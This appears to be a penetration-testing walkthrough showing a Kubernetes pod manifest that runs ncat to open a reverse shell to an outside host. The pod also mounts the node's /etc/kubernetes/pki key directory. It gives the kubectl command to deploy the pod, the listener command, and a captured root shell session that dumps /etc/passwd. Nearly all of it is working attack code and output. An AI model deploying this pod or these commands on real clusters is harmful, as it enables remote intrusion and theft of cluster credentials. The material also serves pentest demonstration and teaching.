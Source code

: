 ```
# This pod creates a reverse shell back to an external hosts (edit the [IP] to set)
# It'll also mount the /etc/kubernetes/pki directory into the conatiner as a demo.
apiVersion: v1
kind: Pod
metadata:
  name: ncat-reverse-shell-pod
spec:
  containers:
  - name: ncat-reverse-shell
    image: 10.0.200.8:8082/ncat/ncat
    volumeMounts:
    - mountPath: /pki
      name: keyvolume
    args: ['192.168.1.100', '8989', '-e', '/bin/bash']
  imagePullSecrets:
  - name: regcred
  volumes:
  - name: keyvolume
    hostPath:
      path: /etc/kubernetes/pki
      type: Directory

$ kubectl apply -f ./ncat-reverse-shell-pod-static.yml

Pentester Machine (home laptop) - 192.168.1.100  we just need to start a listener to wait for our shell to come in. The command below will open a shell on port 8989/TCP to wait for a connection

ncap -l -p 8989

davar@carbon:~$ ncat -l -p 8989
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 09:41 ?        00:00:00 /usr/local/bin/ncat 192.168.1.100 8989 -e /bin/bash
root          11       1  0 09:41 ?        00:00:00 /bin/bash
root          12      11  0 09:41 ?        00:00:00 ps -ef
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

$ kubectl get po
NAME                     READY   STATUS    RESTARTS     AGE
ncat-reverse-shell-pod   1/1     Running   1 (6s ago)   12s
privpod                  1/1     Running   0            41h


```
